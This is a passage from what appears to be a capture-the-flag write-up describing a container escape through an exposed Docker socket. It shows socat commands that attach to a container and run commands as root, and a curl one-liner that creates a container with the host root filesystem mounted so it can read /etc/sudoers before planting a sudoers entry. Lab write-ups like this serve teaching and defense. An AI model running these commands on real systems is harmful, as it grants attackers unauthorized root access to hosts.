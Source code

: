 ```

root@2d24bf61767c:~# ./socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/22c0/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host: 
Connection: Upgrade
Upgrade: tcp

```

The response back shows `UPGRADED`:

```

root@2d24bf61767c:~# ./socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/22c0/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host: 
Connection: Upgrade
Upgrade: tcp
                              
HTTP/1.1 101 UPGRADED   
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp                                                                                                              

```

At this point the terminal is just hanging, but if I give it a command, it runs and returns results:

```

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27
(video)

```

I can easily read `root.txt`, or use the techniques that follow to get a full shell.

### Shell

There’s a ton of ways to get a shell with root file system access. I’ll add myself to the `/etc/sudoers` file. It by default looks like:

```

root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "cat /rootfs/etc/sudoers"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost/containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

```